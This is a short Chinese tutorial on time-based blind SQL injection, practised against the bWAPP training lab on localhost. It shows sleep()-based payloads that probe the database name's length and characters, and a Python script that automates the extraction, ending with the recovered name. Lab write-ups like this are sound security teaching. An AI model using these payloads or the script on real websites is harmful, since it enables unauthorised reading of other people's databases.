



# Time Based sqlinject

针对 网页无回显的  时间盲注。

## 1 POC
bwapp靶场
### 1.1 数据库长度
```sql
Iron Man' and length(database()) = 1  and sleep(2) -- 
Iron Man' and length(database()) = 2  and sleep(2) -- 
```


响应时间为 毫秒级
```sql
Iron Man' and length(database()) > 1  and sleep(2) -- 
Iron Man' and length(database()) = 5  and sleep(2) -- 
```


响应时间为 秒级 说明 length() 中间为真，以此判断数据库名 长度。

### 1.2 数据库名字
```sql
ascII 33 - 127
Iron Man' and ascii(substr(database(),{},1))={} and sleep(1) --
```

### 2 编写 python 脚本

```python
import requests
import time

HEADER = {
    "Cookie": "Pycharm-96f049d=ea851b36-b300-4205-981a-df8d72e498c8; security_level=0; PHPSESSID=lu3shbpndil1gbjrbtulpdidp3"
}
BASE_URL = "http://localhost:9999/sqli_15.php"


def get_database_name_length() -> int:
    count = 0
    for i in range(100):
        # --+ 注释可用
        url = BASE_URL + "?title=Iron Man' and length(database()) = {} and sleep(1) --+&action=search".format(i)

        # --空格 注释可用
        # url = BASE_URL + "?title=Iron Man' and length(database()) = {} and sleep(1) -- &action=search".format(i)

        # # 注释不可用，原因可能是 url中#号是用来指导浏览器动作的
        # url = BASE_URL + "?title=Iron Man' and length(database()) = {} and sleep(1) # &action=search".format(i)

        start_time = time.time()
        resp = requests.get(url, headers=HEADER)
        # print(resp.content)
        if time.time() - start_time > 1:
            print("长度为{}".format(i))
            count = i
            return count


def get_database_name(count):
    for i in range(count + 1):
        for j in range(33, 127):
            url = BASE_URL + "?title=Iron Man' and ascii(substr(database(),{},1))={} and sleep(1) --  &action=search".format(
                i, j)
            start_time = time.time()
            resp = requests.get(url, headers=HEADER)
            if time.time() - start_time > 1:
                print(chr(j), end="")


# get_database_name_length()
get_database_name(get_database_name_length())
```

### 2.1结果
```
长度为5
bWAPP
进程已结束,退出代码0
```